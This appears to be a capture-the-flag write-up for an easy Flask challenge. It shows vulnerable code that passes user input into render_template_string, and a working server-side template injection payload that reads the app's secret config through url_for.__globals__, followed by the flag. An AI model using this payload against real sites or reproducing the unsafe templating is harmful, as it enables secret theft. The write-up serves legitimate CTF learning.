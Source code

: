 # bro_visited_his_site

## Difficulty

Easy

## Points Earned

343

## Description

> bro stored his secrets in the flask app config
> 
> note: this is not /app/flag.txt - that's bro_visited_his_site_2
> 
> 10 point hint: attack type
> 
> 20 point hint: writeup for similar problem
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

## Solution

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
    return render_template_string(f'''
        {{% set config="friend" %}}
        {{% set self="visit" %}}
        <p>
            {word}pilled {word}maxxer
        </p>
```

I unlocked hint 2 and got a link to this write up: https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.

![bro_visited_his_site solution](./images/bro_visited_his_site_sol.png "bro_visited_his_site solution")

## Flag

`jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`
